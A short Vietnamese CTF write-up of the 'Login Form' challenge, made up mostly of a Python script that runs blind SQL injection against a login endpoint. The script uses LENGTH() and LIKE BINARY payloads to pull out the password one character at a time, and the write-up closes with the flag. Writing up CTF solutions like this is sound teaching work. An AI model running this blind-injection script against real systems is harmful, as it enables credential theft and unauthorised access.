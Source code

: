 ## [Login Form](https://ctf.viblo.asia/puzzles/login-form-ebfvssjqfr5)

![image-20200412215140193](images/image-20200412215140193.png)



Thử 1 payload sqli đơn giản thì xuất hiện thông báo => có lỗi sqli

![image-20200412221525587](images/image-20200412221525587.png)



![image-20200412221538246](images/image-20200412221538246.png)

Mình có viết 1 đoạn python đơn giản để tìm password thông qua sqli

```python
import requests
import string

def go(url,payload):
	r = requests.post(url,data=payload)
	return r.text

print """
@Get length password
"""
length = 0
for i in xrange(1,100):
	payload = {"login":"","username":"flag' AND LENGTH(password)={}-- -".format(i),"password":"123"};
	ans = go("http://172.104.49.143:1323/",payload);
	if "Success" in ans:
		length = i
		print length
		break
	else:
		continue
print """
@Get password
"""
query = 'Flag'
while True:
	if len(query) == 35:
		break
	for i in (string.printable).replace("%","").replace("_",""):
		payload = {"login":"","username":'flag\' AND password LIKE BINARY "{}%"-- -'.format(query + i),"password":"1"};
		ans = go("http://172.104.49.143:1323/",payload);
		if "Success" in ans:
			query += i
			print query
			break
		else:
			print i
			continue
```

`Flag{Bl1nd_Sql_Inj3cti0n_V3ry_3asy}`